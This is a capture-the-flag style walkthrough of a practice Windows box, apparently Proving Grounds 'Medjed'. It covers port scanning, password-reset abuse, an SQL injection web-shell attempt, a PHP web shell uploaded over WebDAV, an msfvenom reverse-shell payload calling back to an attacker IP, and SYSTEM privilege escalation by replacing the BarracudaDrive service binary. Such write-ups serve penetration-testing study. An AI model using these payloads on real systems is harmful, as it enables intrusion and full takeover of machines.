Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.186.127
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-19 11:36 IST
Nmap scan report for 192.168.186.127
Host is up (0.089s latency).
Not shown: 65517 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8000/tcp  open  http-alt
30021/tcp open  unknown
33033/tcp open  unknown
44330/tcp open  unknown
45332/tcp open  unknown
45443/tcp open  unknown
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.08 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 135,139,445,3306,5040,7680,8000,30021,33033,44330,45332,45443,49664,49665,49666,49667,49668,49669 192.168.186.127
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-19 11:38 IST
Nmap scan report for 192.168.186.127
Host is up (0.11s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8000/tcp  open  http-alt      BarracudaServer.com (Windows)
|_http-server-header: BarracudaServer.com (Windows)
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: BarracudaServer.com (Windows)
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Date: Thu, 19 Mar 2026 06:11:09 GMT
|_http-title: Home
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest, Socks5: 
|     HTTP/1.1 200 OK
|     Date: Thu, 19 Mar 2026 06:08:41 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   GenericLines, GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Thu, 19 Mar 2026 06:08:35 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Date: Thu, 19 Mar 2026 06:08:46 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|   SIPOptions: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 19 Mar 2026 06:09:51 GMT
|     Server: BarracudaServer.com (Windows)
|     Connection: Close
|     Content-Type: text/html
|     Cache-Control: no-store, no-cache, must-revalidate, max-age=0
|_    <html><body><h1>400 Bad Request</h1>Can't parse request<p>BarracudaServer.com (Windows)</p></body></html>
| http-methods: 
|_  Potentially risky methods: PROPFIND PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
30021/tcp open  ftp           FileZilla ftpd 0.9.41 beta
|_ftp-bounce: bounce working!
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            536 Nov 03  2020 .gitignore
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 app
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 bin
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 config
| -r--r--r-- 1 ftp ftp            130 Nov 03  2020 config.ru
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 db
| -r--r--r-- 1 ftp ftp           1750 Nov 03  2020 Gemfile
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 lib
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 log
| -r--r--r-- 1 ftp ftp             66 Nov 03  2020 package.json
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 public
| -r--r--r-- 1 ftp ftp            227 Nov 03  2020 Rakefile
| -r--r--r-- 1 ftp ftp            374 Nov 03  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 test
| drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 tmp
|_drwxr-xr-x 1 ftp ftp              0 Nov 03  2020 vendor
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
33033/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
44330/tcp open  ssl/unknown
|_ssl-date: 2026-03-19T06:11:39+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=server demo 1024 bits/organizationName=Real Time Logic/stateOrProvinceName=CA/countryName=US
| Not valid before: 2009-08-27T14:40:47
|_Not valid after:  2019-08-25T14:40:47
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Date: Thu, 19 Mar 2026 06:09:45 GMT
|     Server: BarracudaServer.com (Windows)
|_    Connection: Close
45332/tcp open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Quiz App
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
45443/tcp open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-title: Quiz App
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8000-TCP:V=7.95%I=7%D=3/19%Time=69BB92E3%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,72,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2019\x20Mar\x20
SF:2026\x2006:08:35\x20GMT\r\nServer:\x20BarracudaServer\.com\x20\(Windows
SF:\)\r\nConnection:\x20Close\r\n\r\n")%r(GetRequest,72,"HTTP/1\.1\x20200\
SF:x20OK\r\nDate:\x20Thu,\x2019\x20Mar\x202026\x2006:08:35\x20GMT\r\nServe
SF:r:\x20BarracudaServer\.com\x20\(Windows\)\r\nConnection:\x20Close\r\n\r
SF:\n")%r(FourOhFourRequest,72,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2
SF:019\x20Mar\x202026\x2006:08:41\x20GMT\r\nServer:\x20BarracudaServer\.co
SF:m\x20\(Windows\)\r\nConnection:\x20Close\r\n\r\n")%r(Socks5,72,"HTTP/1\
SF:.1\x20200\x20OK\r\nDate:\x20Thu,\x2019\x20Mar\x202026\x2006:08:41\x20GM
SF:T\r\nServer:\x20BarracudaServer\.com\x20\(Windows\)\r\nConnection:\x20C
SF:lose\r\n\r\n")%r(HTTPOptions,72,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu
SF:,\x2019\x20Mar\x202026\x2006:08:46\x20GMT\r\nServer:\x20BarracudaServer
SF:\.com\x20\(Windows\)\r\nConnection:\x20Close\r\n\r\n")%r(RTSPRequest,72
SF:,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2019\x20Mar\x202026\x2006:08
SF::46\x20GMT\r\nServer:\x20BarracudaServer\.com\x20\(Windows\)\r\nConnect
SF:ion:\x20Close\r\n\r\n")%r(SIPOptions,13C,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nDate:\x20Thu,\x2019\x20Mar\x202026\x2006:09:51\x20GMT\r\nServe
SF:r:\x20BarracudaServer\.com\x20\(Windows\)\r\nConnection:\x20Close\r\nCo
SF:ntent-Type:\x20text/html\r\nCache-Control:\x20no-store,\x20no-cache,\x2
SF:0must-revalidate,\x20max-age=0\r\n\r\n<html><body><h1>400\x20Bad\x20Req
SF:uest</h1>Can't\x20parse\x20request<p>BarracudaServer\.com\x20\(Windows\
SF:)</p></body></html>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port33033-TCP:V=7.95%I=7%D=3/19%Time=69BB92E3%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(GetReque
SF:st,C76,"HTTP/1\.0\x20403\x20Forbidden\r\nContent-Type:\x20text/html;\x2
SF:0charset=UTF-8\r\nContent-Length:\x203102\r\n\r\n<!DOCTYPE\x20html>\n<h
SF:tml\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20charset=\"utf-8\"\x20/>\n
SF:\x20\x20<title>Action\x20Controller:\x20Exception\x20caught</title>\n\x
SF:20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20backg
SF:round-color:\x20#FAFAFA;\n\x20\x20\x20\x20\x20\x20color:\x20#333;\n\x20
SF:\x20\x20\x20\x20\x20margin:\x200px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20body,\x20p,\x20ol,\x20ul,\x20td\x20{\n\x20\x20\x20\x20\x20\x20font-f
SF:amily:\x20helvetica,\x20verdana,\x20arial,\x20sans-serif;\n\x20\x20\x20
SF:\x20\x20\x20font-size:\x20\x20\x2013px;\n\x20\x20\x20\x20\x20\x20line-h
SF:eight:\x2018px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20pre\x20{\n\x20\x2
SF:0\x20\x20\x20\x20font-size:\x2011px;\n\x20\x20\x20\x20\x20\x20white-spa
SF:ce:\x20pre-wrap;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20pre\.box\x20{\n\
SF:x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#EEE;\n\x20\x20\x20\x
SF:20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20margin:\x200px;\n\
SF:x20\x20\x20\x20\x20\x20width:\x20958px;\n\x20\x20\x20\x20}\n\n\x20\x20\
SF:x20\x20header\x20{\n\x20\x20\x20\x20\x20\x20color:\x20#F0F0F0;\n\x20\x2
SF:0\x20\x20\x20\x20background:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20paddi
SF:ng:\x200\.5em\x201\.5em;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h1\x20{\
SF:n\x20\x20\x20\x20\x20\x20margin:\x200\.2em\x200;\n\x20\x20\x20\x20\x20\
SF:x20line-height:\x201\.1em;\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\
SF:n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h2\x20{\n\x20\x20\x20\x20\x20\x20
SF:color:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20line-height:\x2025px;\n\x20
SF:\x20\x20\x20}\n\n\x20\x20\x20\x20\.details\x20{\n\x20\x20\x20\x20\x20\x
SF:20bord")%r(HTTPOptions,C76,"HTTP/1\.0\x20403\x20Forbidden\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x203102\r\n\r\n<!
SF:DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20chars
SF:et=\"utf-8\"\x20/>\n\x20\x20<title>Action\x20Controller:\x20Exception\x
SF:20caught</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#FAFAFA;\n\x20\x20\x20\x20\x20\x20c
SF:olor:\x20#333;\n\x20\x20\x20\x20\x20\x20margin:\x200px;\n\x20\x20\x20\x
SF:20}\n\n\x20\x20\x20\x20body,\x20p,\x20ol,\x20ul,\x20td\x20{\n\x20\x20\x
SF:20\x20\x20\x20font-family:\x20helvetica,\x20verdana,\x20arial,\x20sans-
SF:serif;\n\x20\x20\x20\x20\x20\x20font-size:\x20\x20\x2013px;\n\x20\x20\x
SF:20\x20\x20\x20line-height:\x2018px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20pre\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x2011px;\n\x20\x20\x20\
SF:x20\x20\x20white-space:\x20pre-wrap;\n\x20\x20\x20\x20}\n\n\x20\x20\x20
SF:\x20pre\.box\x20{\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#
SF:EEE;\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x
SF:20margin:\x200px;\n\x20\x20\x20\x20\x20\x20width:\x20958px;\n\x20\x20\x
SF:20\x20}\n\n\x20\x20\x20\x20header\x20{\n\x20\x20\x20\x20\x20\x20color:\
SF:x20#F0F0F0;\n\x20\x20\x20\x20\x20\x20background:\x20#C52F24;\n\x20\x20\
SF:x20\x20\x20\x20padding:\x200\.5em\x201\.5em;\n\x20\x20\x20\x20}\n\n\x20
SF:\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20margin:\x200\.2em\x200;\n\
SF:x20\x20\x20\x20\x20\x20line-height:\x201\.1em;\n\x20\x20\x20\x20\x20\x2
SF:0font-size:\x202em;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20h2\x20{\n\x20
SF:\x20\x20\x20\x20\x20color:\x20#C52F24;\n\x20\x20\x20\x20\x20\x20line-he
SF:ight:\x2025px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20\.details\x20{\n\x
SF:20\x20\x20\x20\x20\x20bord");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port44330-TCP:V=7.95%T=SSL%I=7%D=3/19%Time=69BB9329%P=x86_64-pc-linux-g
SF:nu%r(FourOhFourRequest,72,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x201
SF:9\x20Mar\x202026\x2006:09:45\x20GMT\r\nServer:\x20BarracudaServer\.com\
SF:x20\(Windows\)\r\nConnection:\x20Close\r\n\r\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-19T06:11:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 192.70 seconds
```

Visiting web server on port 8000.

After few seconds page automatically redirected to below page which is "Set administrator account".

After that, I accessed the **About** page to check the BarracudaDrive version in use.


The version detected was **BarracudaDrive 6.5**. A quick vulnerability check on this version revealed **CVE-2020–23834**, which relates to **Insecure Service File Permission**, potentially leading to **Local Privilege Escalation**.



For a while, we visited another web pages on port 45330 and 45443 both were quiz app pages.
45443



45332


We visited another page on port 33033 and found the webpage below, which included team names, emails, and pictures.



 An intriguing photo of a team cat caught our attention.
 The following login screen appeared when we clicked on the login link.


The following page appeared when we clicked on the "forgot password" link:



We tried several username iterations and reminder alternatives located in the cat's profile information because the picture of the cat featured on the team seemed unusual.

Ultimately, we discovered that the following combinations updated the password.

Username: jerren.devops Reminder: paranoid







After logging in with the username jerren.devops and the newly created password “Test@1234” we were directed to the following webpage.



We are regular users, with restricted access to sensitive data and restricted privileges. But as we investigated the web application, we found that a MySQL database was running and open to SQL injection attacks.

We click the "edit" link, which took us to the following web page.


when we click on the "Request profile slug", we got to know that mysql was running.

### MYSQL Injection

 When we find MySQL listed on the page, we decide to see if it was susceptible to SQL injection by typing a single quote and clicking "request".


 We receive an error showing it is vulnerable and has a SQL database running.
 


### sqlinjection

-Entering the SQL query below, we click "Request" and a webshell is created that permits the execution of shell commands.

```
' UNION SELECT (“<?php echo passthru($_GET[‘cmd’]);”) INTO OUTFILE ‘C:/xampp/htdocs/cmd.php’ — -'
```

This did not work so once again I moved to port 8000. I then navigated to the **Web-File-Server** menu, which contained a File Server Link. This suggests that BarracudaDrive functions similarly to cloud storage (like Google Drive) but operates as a file-sharing server. The server permissions were set to **“read” and “write”**, meaning I could view the drive’s contents and upload files. But first I created an account.





Accessing `[http://192.168.131.127:8000/fs/](http://192.168.131.127:8000/fs/)` and navigating to the **C:** drive revealed its full filesystem structure, including standard folders such as Program Files**,** Users**,** and others.





### Uploading a Backdoor for Command Injection

Since the permissions allowed **“read” and “write”** access, I uploaded a PHP backdoor to the directory:

Knowing that the web servers on port 45332 and 45443 are running Apache (from my Nmap scan), I’ll click into the C:\xampp\htdocs directory (the root of the web server) and see if it lets me upload a PHP web shell:

Click on upload button shown in below image.


First generate php one liner.
```sh
<?php system($_GET['cmd']); ?>
```







The upload was successful, but when I tried to access `http://192.168.131.127:8000/cmd_shell.php` , the file was not found.


Remembering that ports **45332** and **45443** were hosting quiz pages, I attempted to access:

`http://192.168.131.127:45443/cmd_shell.php?cmd=whoami`

This successfully executed a command injection, revealing the current user as `jerren`.





**From here we have 3 methods to get reverse shell**
Method 1: Generating reverse shell payload using msfvenom and the uploading it using certutil.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.235 LPORT=4444 -f exe > reverse_shell.exe
```







Capture local flag.


### Privilege Escalation
#### BarracudaDrive v6.5 Privilege Escalation
We navigate to the privilege escalation exploit webpage we found on Google previously.

https://www.exploit-db.com/exploits/48789

First, I checked the Folder and File Permissions of `bd.exe`, located at: `C:\bd\bd.exe`.



The results confirmed **Insecure Folder Permissions** and **Insecure File Permissions**.

### Why is this a security risk?

The `NT AUTHORITY\Authenticated Users` group had **Change (C)** permissions, meaning:

- Any user with valid credentials is automatically a member of Authenticated Users.
- This allowed my user to modify the contents of the `C:\bd\` folder, including replacing bd.exe for exploitation.

To verify that my `jerren` user was part of `NT AUTHORITY\Authenticated Users`, I checked the user groups.


The results confirmed `jerren`as a member of `NT AUTHORITY\Authenticated Users`.

Rather than producing a malicious C code binary, we make use of the target machine’s existing rev.exe reverse shell binary.

To alter the name of the bd executable, we type the following command.

```cmd
move bd.exe bd.service.exe
```

We alter the name of the reverse shell by typing the following command.
```
move reverse_shell.exe bd.exe
```




We launch a netcat listener on a different terminal at port 4444.



When we type "shutdown -r" and wait a minute, a reverse shell that is running as nt authority\system is displayed.





**Here, we could have crate another reverse shell and after transferring it the target system we would have change it bd.exe. Since, we already have reverse shell uploaded to the target, we used the same.**

https://banua.medium.com/proving-grounds-medjed-oscp-prep-2025-practice-6-f108c182a209

https://github.com/Bsal13/Offensive-Security-Proving-Grounds-Boxes/blob/main/MedJed%20(Intermediate)%20Windows%20Box.md

https://medium.com/@johnniketas/proving-grounds-medjed-ce6c6b52801d

We can use different multiple methods to achieve reverse shell, follow bove writeups.
